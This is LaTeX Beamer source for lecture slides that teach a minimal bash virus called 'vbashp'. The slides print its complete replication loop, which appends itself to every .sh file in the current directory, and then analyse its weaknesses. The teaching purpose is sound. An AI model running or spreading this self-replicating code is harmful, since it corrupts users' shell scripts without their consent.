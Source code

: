 \documentclass{beamer}
\begin{document}
\section{The \texttt{vbashp} Virus and Improvements}


\begin{frame}[fragile]
\frametitle{The \texttt{vbashp} Virus}
\begin{block}{\texttt{vbashp}}
\begin{semiverbatim}
\alert<2>{for i in *.sh;}
\alert<2>{do \# for all files with the .sh extension}
\alert<3>{if test  "./\$i" != "\$0"; }
\alert<3>{   then \# if target != currently infecting file }
\alert<4>{   tail -n 5 \$0 | cat >> \$i; \# append virus code }
\alert<3>{fi}
\alert<2>{done}
\end{semiverbatim}
\end{block}



\begin{itemize}
\item<2-> \alert<2>{ It infects all files with the \texttt{.sh} extension.}
\item<3-> \alert<3>{ It does not infect the infecting script itself.}
\item<4-> \alert<4>{ It works by appending code at the end of the file.}
\item<5-> This virus is 91 bytes in size.
\item<6-> Appending at the end of the file does not require a temporary file.
\item<7-> When an infected \texttt{.sh} is executed, the viral code runs last.
\end{itemize}
\end{frame}



\begin{frame}
\frametitle{Characteristics of the \texttt{vbashp} Virus}
\begin{itemize}
\item Its action is { \color{blue} limited to the current directory.}
\item The virus is { \color{blue}not stealthy}: it can be spotted simply by its name.
\item The virus is { \color{blue} not polymorphic}: the entire code can serve as a signature.
\item The virus does { \color{blue}not prevent reinfection}.
\item The virus has { \color{blue}no payload}.
\end{itemize}
\end{frame}
\end{document}
